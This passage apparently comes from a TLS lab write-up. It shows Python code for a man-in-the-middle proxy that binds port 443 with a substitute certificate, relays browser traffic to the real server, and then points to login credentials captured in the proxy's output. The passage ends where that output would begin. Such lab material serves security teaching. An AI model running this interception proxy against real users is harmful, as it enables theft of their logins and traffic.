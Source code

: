   ```python3
          # Forward request to server
          ssock_for_server.sendall(request)

          # Get response from server, and forward it to browser
          response = ssock_for_server.recv(2048)
          while response:
              ssock_for_browser.sendall(response) # Forward to browser
              response = ssock_for_server.recv(2048)
              
      ssock_for_browser.shutdown(socket.SHUT_RDWR)
      ssock_for_browser.close()

  html = """
  HTTP/1.1 200 OK\r\nContent-Type: text/html\r\n\r\n
  <!DOCTYPE html><html><body><h1>This is Bank32.com!</h1></body></html>
  """

  # SERVER_CERT = './server-certs/mycert.crt'
  # SERVER_PRIVATE = './server-certs/mycert.key'
  SERVER_CERT = './server-certs/wayf.crt'
  SERVER_PRIVATE = './server-certs/wayf.key'


  context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)  # For Ubuntu 20.04 VM
  # context = ssl.SSLContext(ssl.PROTOCOL_TLSv1_2)      # For Ubuntu 16.04 VM
  context.load_cert_chain(SERVER_CERT, SERVER_PRIVATE)

  sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
  sock.bind(('0.0.0.0', 443))
  sock.listen(5)

  while True:
      sock_for_browser, fromaddr = sock.accept()
      try:
          ssock_for_browser = context.wrap_socket(sock_for_browser, server_side=True)
          x = threading.Thread(target=process_request, args=(ssock_for_browser,))
          x.start()
          # print("TLS connection established")
          # data = ssock_for_browser.recv(1024)              # Read data over TLS
          # pprint.pprint("Request: {}".format(data))
          # ssock_for_browser.sendall(html.encode('utf-8'))  # Send data over TLS

          # ssock_for_browser.shutdown(socket.SHUT_RDWR)     # Close the TLS connection
          # ssock_for_browser.close()

      except Exception:
          print("TLS connection fails")
          continue
  ```

  - Credentials (CTRL + F `j_username=testusername&j_password=testpassword`) - Output from `proxy.py`:
